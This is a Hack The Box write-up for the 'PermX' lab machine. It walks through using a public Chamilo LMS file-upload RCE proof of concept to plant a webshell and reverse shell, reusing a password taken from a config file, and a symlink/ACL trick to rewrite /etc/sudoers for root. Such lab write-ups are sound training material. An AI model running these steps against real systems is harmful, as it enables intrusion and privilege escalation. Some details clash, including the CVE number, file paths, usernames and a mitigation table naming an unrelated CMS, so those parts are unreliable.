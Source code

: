 ```yaml
--- 
title: "Hack the Box (HTB) - PermX"
description: "Linux ACL & Symbolic Link Exploit"
date: 2024-08-13 12:00:00 -100
image: /assets/images/HTB - PermX/PermX Thumbnail.jpg
categories: [CTF]
tags: [chamilo, symbolic link, linux acl,]    # TAG names should always be lowercase
---
```


## Enumeration

Let's start by running a [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan against our target at `10.10.11.23`

![Ports](/assets/images/HTB%20-%20PermX/Ports.png)

We se the famous duo of 22 && 80 here

Port 80 didn't follow redirect to `http://permx.htb` which is indicative of virtual hosting. We'll add this to our /ec/hosts file for local name resolution and proceed to check out the web server

```bash
sudo nano /etc/hosts
```

![etchosts](/assets/images/HTB%20-%20PermX/localdns.png)

Now that we have that in our local DNS file, let's navigate to the web server

![Web Server](/assets/images/HTB%20-%20PermX/Web%20Server.png)

Navigating around the web server I don't initially see anything I can exploit. Since we have some virtual hosting going on I am going to enumeration sub domains

```bash
ffuf -u http://permx.htb -H "Host: FUZZ.permx.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200 -fc 302,404
```

![LMS](/assets/images/HTB%20-%20PermX/LMS.png)

We've discoverd the subdomain `lms`. We'll add that to our /etc/hosts file and check it out

![Chamilo](/assets/images/HTB%20-%20PermX/Chamilo.png)

Chamilo is obviously an open source LMS. Looking at the bottom of the screen we don't see a version number but we do see who the Administrator is, `Davis Miller`

Try default passwords does not work. Let's curl the request to see if we can get a version number

```bash
curl -I http://lms.permx.htb
```

![Chamilo 1](/assets/images/HTB%20-%20PermX/Chamilo%201.png)

We see a broad version number of `Chamilo 1` Let's search for exploits on Chamilo 1 

![Search](/assets/images/HTB%20-%20PermX/Github%20Exploit%20Chamilo.png)

We see this github repo for an unauthenticated RCE. We're not sure if this will work as we're sure which version it works for but it's worth checking out

![1.1.11](/assets/images/HTB%20-%20PermX/1.11.24.png)

This script exploits [CVE-2024-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220) which appears to be an unrestricted file upload in the big upload functionality in `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` in Chamilo LMS

Basically, the script will send a post request with a file to the upload endpoint `bigUpload.php` without needing to log in

Let's following the github instructions and clone the repo / install dependencies

```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
cd chamilo-lms-unauthenticated-big-upload-rce-poc
pip install -r requirements.txt
```

Now as the repo says, scan the target

```bash
python3 main.py -u http://lms.permx.htb -a scan
```

![Confirmed Exploit](/assets/images/HTB%20-%20PermX/Confiremd%20Exploit.png)

Nice, this exploit looks like it will work for our Chamilo version

Now, as the repo says let's create the PHP script in the vulnerable endpoint

```bash
python3 main.py -u http://lms.permx.htb -a webshell
```

Now create and execute a bash reverse shell file 

```bash
python3 main.py -u http://lms.permx.htb -a revshell
```

![RevShell](/assets/images/HTB%20-%20PermX/RevShell.png)

We have our shell! As always lets' upgrade to a fully interactive TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now we have a new shell with more capabilities. But we want more (being able to use our ctrl & alt keys, etc). Let's background the process with `CTRL + Z`

```bash
stty raw -echo;fg
```

This command will adjust the terminal setting & improve input. Now we can use ctrl & alt. However, it could be better

```bash
export TERM=xterm
```

Beautiful, now we can tab auto complete & more

Since we know Chamilo uses a database to store authentication. We should look for that as we're currently only `www-data`

![Password Found](/assets/images/HTB%20-%20PermX/Password%20found.png)

Doing some research while looking around bring me to this `/var/www/chamilo/app/config/configuration.php` and we discover a password of `03F6lY3uXAP2bkW8` for the db user Chamilo

Let's check the /etc/passwd file to see if there's anyone we can try this password against as password reuse is one of the most common attack vectors

![/etc/passwd](/assets/images/HTB%20-%20PermX/mtz%20user.png)

We see a non-standard user here `mtz` let's try to use the password we obtained on this account

![SU Mtz](/assets/images/HTB%20-%20PermX/SU%20Mtz.png)

Nice, password reuse is always a thing after all. Anyway, let's SSH into this box as it will give us the most stable shell

```bash
ssh mtz@10.10.11.23
```

Nothing useful in the users folder. Let's check sudo permissions

```bash
sudo -l
```

![Sudo Permissions](/assets/images/HTB%20-%20PermX/Sudo%20permissions.png)

We're able to run this `/opt/acl.sh` script as sudo. Let's check it out to see what it does

![ACL.SH](/assets/images/HTB%20-%20PermX/acl.sh.png)

This script first checks for three arguments, then checks if the target path is not inside of /home/mtz & if the target path contains ..
The script uses sudo to run the setfacl on the target, effectively modifying the ACL on it

ACL in Linux provide more granular permission that the standard mode. Since we can run this script as sudo we can basically give any file in our home directory any permissions.

We can exploit this using asymbolic link. Creating a symbolic link from a file in our home directory to the `/etc/sudoers` effectively allows us to modify the sudoers file

![Sym Link](/assets/images/HTB%20-%20PermX/Sym%20link.png)

Now let's run the script!

```bash
sudo /opt/acl.sh mtz rwx /home/pwned.txt
```

Now we can add the user mtx to the suders file

```bash
mtz ALL=(ALL) NOPASSWD: ALL
```

Now, we can sudo su root with our password

![Root PermX](/assets/images/HTB%20-%20PermX/Root%20Permx.png)

GG, we've rooted PermX!

| Vulnerability                                    | Mitigation                                                                                       |
|--------------------------------------------------|--------------------------------------------------------------------------------------------------|
| URL Information Disclosure |  Ensure file names are sanitized and not directly exposed in the URL                  |
| Outdated CMS (Pluck) | Keep all software up to date |
| Hardcoded Creds | Do not store credentials in publicly accessible files  |
| Weak password | Use strong passwords |
| Password re-use | Don't reuse passwords |

### Remediation References

[OWASP Top Ten: Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure)

[NIST SP 800-63B: Password Guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html)
